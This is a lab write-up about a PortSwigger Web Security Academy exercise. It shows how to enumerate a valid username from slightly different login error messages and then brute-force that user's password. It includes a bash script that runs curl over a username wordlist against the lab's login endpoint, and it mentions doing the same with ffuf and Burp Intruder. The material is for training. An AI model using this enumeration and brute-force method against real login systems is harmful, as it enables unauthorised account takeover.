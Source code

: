 ## Lab: Username enumeration via subtly different responses

 This lab is subtly vulnerable to username enumeration and password brute-force attacks. It has an account with a predictable username and password, which can be found in the following wordlists:

- Candidate usernames
- Candidate passwords

To solve the lab, enumerate a valid username, brute-force this user's password, then access their account page. 

We made the request using `cURL`:
![image](https://github.com/user-attachments/assets/7d7cb48f-a367-4e11-99be-2af01de098ae)

We performed fuzzing with `ffuf`:
![image](https://github.com/user-attachments/assets/92663fd5-71d1-47f1-b19e-ef859092eec7)

We see that the user is **vagrant**.  

As an alternative, we try fuzzing again but filtering with a regex that exactly matches that string. We created a bash script:  
```bash
#!/bin/bash

WORDLIST="candidate_usernames.txt"

URL="https://0a5d00730450e252d7fd8d9d006400f4.web-security-academy.net/login"

HEADERS="Content-Type: application/x-www-form-urlencoded"

while read -r USER; do
    RESPONSE=$(curl -s -X POST "$URL" \
        -H "$HEADERS" \
        -d "username=$USER&password=test")

    if [[ "$RESPONSE" != *"Invalid username or password."* ]]; then
        echo "Posible usuario válido: $USER"
    fi
done < "$WORDLIST"
```


We run the script:  
![image](https://github.com/user-attachments/assets/361d0727-cd11-4583-8880-b7db34e9c7c4)

We could also have used BurpSuite's Intruder:  

First, we need to add the payload, include the wordlist, and in **settings** we need to configure the `GREP-EXTRACT` section:
![image](https://github.com/user-attachments/assets/a188d900-d951-4db7-9b24-40a3d29677ed)
![image](https://github.com/user-attachments/assets/da809777-e29d-41cb-be7c-6565cf0ae109)



Now that we have the **vagrant** user, we make a `cURL` request with a test password to observe the behavior:"
![image](https://github.com/user-attachments/assets/0b0e5995-aa3e-468c-b4ac-eb0c075adaa0)
We see that a '.' is missing at the end of the sentence. Now, we perform password fuzzing and filter **Invalid username or password**:  
![image](https://github.com/user-attachments/assets/3bae9716-68c4-4193-b2ff-fad2a13e83c7)

Now we log in with the credentials and solve the lab:
![image](https://github.com/user-attachments/assets/f22cc318-f15b-4e2d-80fc-98d05df8cca2)
